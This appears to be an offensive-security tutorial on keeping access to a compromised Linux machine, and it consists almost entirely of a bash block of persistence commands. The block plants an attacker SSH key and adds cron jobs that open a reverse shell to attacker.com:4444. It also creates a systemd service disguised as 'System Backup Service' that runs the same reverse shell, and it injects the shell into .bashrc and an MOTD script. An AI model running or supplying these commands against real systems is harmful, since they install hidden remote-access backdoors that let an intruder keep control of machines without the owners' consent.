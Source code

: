 ### **Linux Persistence Mechanisms**

**What persistence means:** Maintaining access to compromised system across reboots, user logouts, and system changes.

**Why persistence is important:** Initial access may be lost, persistence ensures continued access for ongoing operations.

```bash
# SSH key persistence
mkdir -p ~/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC..." >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh
# Allows SSH access with attacker's private key

# Cron job persistence
crontab -l > /tmp/cron_backup
echo "*/5 * * * * /bin/bash -c 'bash -i >& /dev/tcp/attacker.com/4444 0>&1'" >> /tmp/cron_backup
crontab /tmp/cron_backup
# Reverse shell every 5 minutes

# System-wide cron persistence (requires root)
echo "*/10 * * * * root /bin/bash -c 'bash -i >& /dev/tcp/attacker.com/4444 0>&1'" >> /etc/crontab
# System-wide reverse shell

# Service persistence (systemd)
cat > /etc/systemd/system/backdoor.service << 'EOF'
[Unit]
Description=System Backup Service
After=network.target

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/attacker.com/4444 0>&1'
Restart=always
RestartSec=60

[Install]
WantedBy=multi-user.target
EOF
systemctl enable backdoor.service
systemctl start backdoor.service

# .bashrc persistence
echo 'nohup bash -c "bash -i >& /dev/tcp/attacker.com/4444 0>&1" &' >> ~/.bashrc
# Executes when user logs in

# MOTD persistence (requires root)
echo 'bash -i >& /dev/tcp/attacker.com/4444 0>&1 &' >> /etc/update-motd.d/00-header
# Executes when users log in via SSH

# Why different persistence methods:
# - SSH keys: Legitimate access method, hard to detect
# - Cron jobs: Periodic execution, survives reboots
# - Services: System-level persistence, automatic restart
# - Shell profiles: User-level persistence, triggered by logins
# - MOTD: Triggers on SSH login, affects multiple users
```
